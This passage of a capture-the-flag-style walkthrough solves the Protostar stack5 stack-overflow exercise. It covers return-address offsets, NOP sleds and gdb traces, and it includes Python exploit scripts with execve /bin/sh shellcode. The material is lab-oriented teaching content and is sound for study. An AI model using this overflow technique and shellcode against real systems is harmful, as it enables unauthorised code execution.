0xbffffa93:	 "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31"...
0xbffffb5b:	 ":*.taz=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lz=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.d"...
0xbffffc23:	 "eb=01;31:*.rpm=01;31:*.jar=01;31:*.rar=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=0---Type <return> to continue, or q <return> to quit---
1;35:*.tga=01;35"...
0xbffffceb:	 ":*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.ogm=01;35:*.mp4=01;35:*.m4"...
0xbffffdb3:	 "v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*."...
0xbffffe7b:	 "yuv=01;35:*.cgm=01;35:*.emf=01;35:*.axv=01;35:*.anx=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;3"...
0xbfffff43:	 "6:*.wav=00;36:*.axa=00;36:*.oga=00;36:*.spx=00;36:*.xspf=00;36:"
0xbfffff83:	 "SHELL=/bin/sh"
0xbfffff91:	 "PWD=/opt/protostar/bin"
0xbfffffa8:	 "SSH_CONNECTION=192.168.1.5 57711 192.168.1.25 22"
0xbfffffd9:	 "LINES=50"
0xbfffffe2:	 "/opt/protostar/bin/stack5"
0xbffffffc:	 ""
0xbffffffd:	 ""
0xbffffffe:	 ""
0xbfffffff:	 ""
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
0xc0000000:	 <Address 0xc0000000 out of bounds>
---Type <return> to continue, or q <return> to quit---q
Quit
(gdb)
```

Length of the `PWD` environment variable causes a difference in the return address

- Trick 1 - Remove all `environment variables`

```
$ env -i ./program 
```

```
(gdb) unset env
```

- Trick 2 - Use `nopsled`

```
NOP
```



`exploit.py`

```python
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
eip = struct.pack('I', 0xbffff7a0+30)
payload = "\x90"*100 + "\xCC"*4

print padding+eip+payload
```

```sh
user@protostar:/tmp$ python exploit.py > exploit
```

```sh
user@protostar:/tmp$ cat exploit
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS������������������������������������������������������������������������������������������������������������
user@protostar:/tmp$
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack5 -q
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave
0x080483da <main+22>:	ret
End of assembler dump.
(gdb) break *0x080483da
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/1i $eip
>x/8wx $esp
>end
(gdb) run < /tmp/exploit
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit
0x80483da <main+22>:	ret
0xbffff79c:	0xbffff7be	0x90909090	0x90909090	0x90909090
0xbffff7ac:	0x90909090	0x90909090	0x90909090	0x90909090

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x5353535b
) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) x/32wx $esp
0xbffff79c:	0xbffff7be	0x90909090	0x90909090	0x90909090
0xbffff7ac:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7bc:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7cc:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7dc:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7ec:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7fc:	0x90909090	0x90909090	0xcccccccc	0xb7eadb00
0xbffff80c:	0xb7ffeff4	0x00000001	0x08048310	0x00000000
(gdb) si
Cannot access memory at address 0x53535357
(gdb)
0xbffff7bf:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7bf in ?? ()
(gdb)
0xbffff7c0:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7c0 in ?? ()
(gdb)
0xbffff7c1:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7c1 in ?? ()
(gdb)
0xbffff7c2:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7c2 in ?? ()
(gdb)
0xbffff7c3:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7c3 in ?? ()
(gdb)
0xbffff7c4:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7c4 in ?? ()
(gdb)
0xbffff7c5:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7c5 in ?? ()
(gdb)
0xbffff7c6:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7c6 in ?? ()
(gdb)
0xbffff7c7:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7c7 in ?? ()
(gdb)
0xbffff7c8:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7c8 in ?? ()
(gdb)
0xbffff7c9:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7c9 in ?? ()
(gdb)
0xbffff7ca:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7ca in ?? ()
(gdb)
0xbffff7cb:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7cb in ?? ()
(gdb)
0xbffff7cc:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7cc in ?? ()
(gdb)
0xbffff7cd:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7cd in ?? ()
(gdb)
0xbffff7ce:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7ce in ?? ()
(gdb)
0xbffff7cf:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7cf in ?? ()
(gdb)
0xbffff7d0:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d0 in ?? ()
(gdb)
0xbffff7d1:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d1 in ?? ()
(gdb)
0xbffff7d2:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d2 in ?? ()
(gdb)
0xbffff7d3:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d3 in ?? ()
(gdb)
0xbffff7d4:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d4 in ?? ()
(gdb)
0xbffff7d5:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d5 in ?? ()
(gdb)
0xbffff7d6:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d6 in ?? ()
(gdb)
0xbffff7d7:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d7 in ?? ()
(gdb)
0xbffff7d8:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d8 in ?? ()
(gdb)
0xbffff7d9:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7d9 in ?? ()
(gdb)
0xbffff7da:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7da in ?? ()
(gdb)
0xbffff7db:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7db in ?? ()
(gdb)
0xbffff7dc:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7dc in ?? ()
(gdb)
0xbffff7dd:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7dd in ?? ()
(gdb)
0xbffff7de:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7de in ?? ()
(gdb)
0xbffff7df:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7df in ?? ()
(gdb)
0xbffff7e0:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e0 in ?? ()
(gdb)
0xbffff7e1:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e1 in ?? ()
(gdb)
0xbffff7e2:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e2 in ?? ()
(gdb)
0xbffff7e3:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e3 in ?? ()
(gdb)
0xbffff7e4:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e4 in ?? ()
(gdb)
0xbffff7e5:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e5 in ?? ()
(gdb)
0xbffff7e6:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e6 in ?? ()
(gdb)
0xbffff7e7:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e7 in ?? ()
(gdb)
0xbffff7e8:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e8 in ?? ()
(gdb)
0xbffff7e9:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7e9 in ?? ()
(gdb)
0xbffff7ea:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7ea in ?? ()
(gdb)
0xbffff7eb:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7eb in ?? ()
(gdb)
0xbffff7ec:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7ec in ?? ()
(gdb)
0xbffff7ed:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7ed in ?? ()
(gdb)
0xbffff7ee:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7ee in ?? ()
(gdb)
0xbffff7ef:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7ef in ?? ()
(gdb)
0xbffff7f0:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7f0 in ?? ()
(gdb)
0xbffff7f1:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7f1 in ?? ()
(gdb)
0xbffff7f2:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7f2 in ?? ()
(gdb)
0xbffff7f3:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7f3 in ?? ()
(gdb)
0xbffff7f4:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7f4 in ?? ()
(gdb)
0xbffff7f5:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7f5 in ?? ()
(gdb)
0xbffff7f6:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7f6 in ?? ()
(gdb)
0xbffff7f7:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7f7 in ?? ()
(gdb)
0xbffff7f8:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7f8 in ?? ()
(gdb)
0xbffff7f9:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7f9 in ?? ()
(gdb)
0xbffff7fa:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7fa in ?? ()
(gdb)
0xbffff7fb:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7fb in ?? ()
(gdb)
0xbffff7fc:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7fc in ?? ()
(gdb)
0xbffff7fd:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7fd in ?? ()
(gdb)
0xbffff7fe:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7fe in ?? ()
(gdb)
0xbffff7ff:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7ff in ?? ()
(gdb)
0xbffff800:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff800 in ?? ()
(gdb)
0xbffff801:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff801 in ?? ()
(gdb)
0xbffff802:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff802 in ?? ()
(gdb)
0xbffff803:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff803 in ?? ()
(gdb)
0xbffff804:	int3
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff804 in ?? ()
(gdb)
0xbffff805:	int3
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff805 in ?? ()
(gdb)
0xbffff806:	int3
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff806 in ?? ()
(gdb)
0xbffff807:	int3
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff807 in ?? ()
(gdb)
0xbffff808:	add    bl,bl
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff808 in ?? ()
(gdb)
0xbffff80a:	jmp    0x1b7:0xffeff4b7
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff80a in ?? ()
(gdb)

Program received signal SIGSEGV, Segmentation fault.
0xbffff80a:	jmp    0x1b7:0xffeff4b7
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff80a in ?? ()
(gdb) c
Continuing.

Program terminated with signal SIGSEGV, Segmentation fault.
The program no longer exists.
Error while running hook_stop:
No registers.
(gdb)
```

[`Linux/x86 execve /bin/sh shellcode 23 bytes`](http://shell-storm.org/shellcode/files/shellcode-827.php)

`exploit.py`

```python
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
eip = struct.pack('I', 0xbffff7a0)
nopsled = "\x90"*100
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

print padding+eip+nopsled+shellcode
```

```sh
user@protostar:/tmp$ python exploit.py | /opt/protostar/bin/stack5
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack5 -q
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave
0x080483da <main+22>:	ret
End of assembler dump.
(gdb) break *0x080483da
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/1i $eip
>x/8wx $esp
>end
(gdb) run < /tmp/exploit
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit
0x80483da <main+22>:	ret
0xbffff79c:	0xbffff7a0	0x90909090	0x90909090	0x90909090
0xbffff7ac:	0x90909090	0x90909090	0x90909090	0x90909090

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x5353535b
) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) si
Cannot access memory at address 0x53535357
(gdb)
0xbffff7a1:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7a1 in ?? ()
(gdb)
0xbffff7a2:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7a2 in ?? ()
(gdb)
0xbffff7a3:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7a3 in ?? ()
(gdb)
0xbffff7a4:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7a4 in ?? ()
(gdb)
0xbffff7a5:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7a5 in ?? ()
(gdb)
0xbffff7a6:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7a6 in ?? ()
(gdb)
0xbffff7a7:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7a7 in ?? ()
(gdb)
0xbffff7a8:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7a8 in ?? ()
(gdb)
0xbffff7a9:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7a9 in ?? ()
(gdb)
0xbffff7aa:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7aa in ?? ()
(gdb)
0xbffff7ab:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7ab in ?? ()
(gdb)
0xbffff7ac:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7ac in ?? ()
(gdb)
0xbffff7ad:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7ad in ?? ()
(gdb)
0xbffff7ae:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7ae in ?? ()
(gdb)
0xbffff7af:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7af in ?? ()
(gdb)
0xbffff7b0:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0 in ?? ()
(gdb)
0xbffff7b1:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b1 in ?? ()
(gdb)
0xbffff7b2:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b2 in ?? ()
(gdb)
0xbffff7b3:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b3 in ?? ()
(gdb)
0xbffff7b4:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b4 in ?? ()
(gdb)
0xbffff7b5:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b5 in ?? ()
(gdb)
0xbffff7b6:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b6 in ?? ()
(gdb)
0xbffff7b7:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b7 in ?? ()
(gdb)
0xbffff7b8:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b8 in ?? ()
(gdb)
0xbffff7b9:	nop
0xbffff7a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff7b9 in ?? ()
(gdb)
0xbffff7ba:	nop
